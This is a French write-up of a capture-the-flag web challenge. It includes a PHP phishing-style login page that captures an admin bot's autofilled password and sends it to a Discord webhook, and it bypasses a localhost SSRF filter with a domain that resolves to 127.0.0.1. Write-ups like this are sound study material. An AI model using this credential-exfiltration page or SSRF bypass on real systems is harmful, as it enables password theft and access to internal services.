

Ce challenge est un challenge web, il y a deux serveurs web, un en local et un en ligne. Nous avons accès au code source !

### Page de connexion


Le premier serveur web est un panneau d'administration, il y a un formulaire de connexion, et un champ pour le mot de passe. On peut trouver dans le code source que l'utilisateur est `admin`.

On peut aussi voir que l'authentification se fait en testant un cookie avec PASSWORD qui est inconnu.

Mais il est possible de faire un *report* qui nous demande alors dans une boîte de dialogue de rentrer une URL et répondant *admin will visit*.

On peut alors voir dans le code source qu'une requête est faite sur cette page, et qu'une tentative de connexion est faite avec le bon mot de passe.

Il nous suffit de faire une page qui serait capable de nous retransmettre le mot de passe reçu. C'est ce que j'ai donc fait, en PHP parce que c'est ce que j'avais sous la main et renvoyant le mot de passe reçu dans un webhook Discord :

```php
<?php

$url = "https://discord.com/api/webhooks/bonjour_je_suis_un_webhook_gentil_blip_bloup";

$data = array('content' => 
    'Connexion via l\'adresse '.$_SERVER['REMOTE_ADDR']."\n"
    .json_encode($_REQUEST)."\n"
    .file_get_contents('php://input')."\n"."OK");

$options = array(
    'http' => array(
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query($data)
    )
);
$context  = stream_context_create($options);
$result = file_get_contents($url, false, $context);
?>

<html>
    <head>
        <title>Super Admin Panel</title>
    </head>
    <body>
        <form action=".">
            <input name="username" type="text">
            <input name="password" type="password">
            <button type="submit" value="Submit">Login</button>
            <button id="pwn" type="button">&nbsp;</button>
        </form>
    </body>
</html>
```

On reçoit alors le mot de passe dans Discord : **goodluckcrackingthis_012391293**.

Il nous reste juste à le mettre dans les cookies avec : `document.cookie = "passw=goodluckcrackingthis_012391293"` puis soumettre le formulaire.


### Page de l'admin



On a désormais accès à une page de *test de fonctionnalité d'un site web*. Dans le code source on peut comprendre que cette page est capable de faire des requêtes HTTP.

> Pourrait-elle nous permettre d'accéder au serveur local ?

Non, car il est impossible d'utiliser une adresse IP, le serveur cherche dans tous les cas à résoudre le nom de domaine. Et il y a une vérification de nom de domaines, localhost et les adresses locales sont rejetées.

Il nous faut donc trouver un moyen de faire pointer une adresse IP vers le serveur local. On peut alors utiliser un nom de domaine qui pointe vers 127.0.0.1, par exemple `self.ambi.dev`.

On met alors `http://self.ambi.dev:1337` dans la boîte de dialogue, clique sur *Go* et le flag apparaît !!!


**flag{I_L0v3_st34ling_auTOf1ll}**